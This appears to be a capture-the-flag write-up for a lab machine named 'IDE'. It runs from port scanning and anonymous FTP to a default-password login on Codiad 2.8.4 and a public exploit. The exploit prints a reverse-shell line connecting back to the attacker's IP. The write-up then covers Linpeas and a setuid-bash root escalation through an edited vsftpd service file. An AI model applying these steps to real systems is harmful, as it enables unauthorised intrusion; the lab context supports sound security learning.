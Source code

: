 # IDE


1. Scan with Rustscan.
```
root@ip-10-10-72-98:~# rustscan -r 1-65535 -a 10.10.239.20
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.\U0001f422

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.239.20:21
Open 10.10.239.20:22
Open 10.10.239.20:80
Open 10.10.239.20:62337
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-26 04:02 UTC
Initiating Ping Scan at 04:02
Scanning 10.10.239.20 [2 ports]
Completed Ping Scan at 04:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:02
Completed Parallel DNS resolution of 1 host. at 04:02, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 04:02
Scanning ip-10-10-239-20.eu-west-1.compute.internal (10.10.239.20) [4 ports]
Discovered open port 80/tcp on 10.10.239.20
Discovered open port 22/tcp on 10.10.239.20
Discovered open port 21/tcp on 10.10.239.20
Discovered open port 62337/tcp on 10.10.239.20
Completed Connect Scan at 04:02, 0.00s elapsed (4 total ports)
Nmap scan report for ip-10-10-239-20.eu-west-1.compute.internal (10.10.239.20)
Host is up, received syn-ack (0.00044s latency).
Scanned at 2022-06-26 04:02:40 UTC for 0s

PORT      STATE SERVICE REASON
21/tcp    open  ftp     syn-ack
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
62337/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

2. Log into ftp as `anonymous`. Use `ls -al`, navigate to the `...` directory with `cd ...`, and download the `-` file with `get ./-`. Use `cat ./-` to view the contents.
```
root@ip-10-10-72-98:~# cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

3. Brute force directories with gobuster. No unique directories were found.
```
root@ip-10-10-72-98:~# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.239.20:80
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.239.20:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/06/26 05:08:20 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.hta (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2022/06/26 05:08:22 Finished
===============================================================
```

4. Navigate to `http://<ip address>:62337` and we find that it's a portal for `Codiad`, which is running version `2.8.4`. We know that the username is probably `john` from the note that `drac` left, so by trying commonly used passwords we find that the password is `password`

5. Use [this](https://www.exploit-db.com/exploits/49705) exploit to get a shell into the system
```
root@ip-10-10-72-98:~/Downloads# python exploit.py http://10.10.239.20:62337/ john password 10.10.72.98 4444 linux
[+] Please execute the following command on your vps:
echo 'bash -c "bash -i >/dev/tcp/10.10.72.98/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```

6. Download [Linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20220619/linpeas.sh) onto the attacking machine and host it on an http server with `python3 -m http.server`. Download it onto the victim machine with `wget http://<ip address>:8000/linpeas.sh`. Give it permissions to run with `chmod +x linpeas.sh` and run it with `./linpeas.sh`

7. We find a password for `drac` in a history file. Use this password to login to ssh as `drac`
```
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

8. Print out the contents of `user.txt` to get the first flag
```
drac@ide:~$ cat user.txt
02930d21a8eb009f6d26361b2d24a466
```

9. Use `sudo -l` to find that we can run `vsftpd` as root
```
drac@ide:/tmp$ sudo -l
[sudo] password for drac:
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

10. Navigate to `/lib/systemd/system/vsftpd.service` and edit the `ExecStart` section to `/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'`. Then run `sudo -u root /usr/sbin/service vsftpd restart` and `systemctl daemon-reload`. This will make a copy of bash in `/tmp` and we'll be able to run it with the `-p` flag to get a root shell

11. Run `root_shell -p` to get a root shell and print out `root.txt` to get `ce258cb16f47f1c66f0b0b77f4e0fb8d`
```
drac@ide:/tmp$ ./root_shell -p
root_shell-4.4# whoami
root
root_shell-4.4# cd /root
root_shell-4.4# ls
root.txt
root_shell-4.4# cat root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d
```
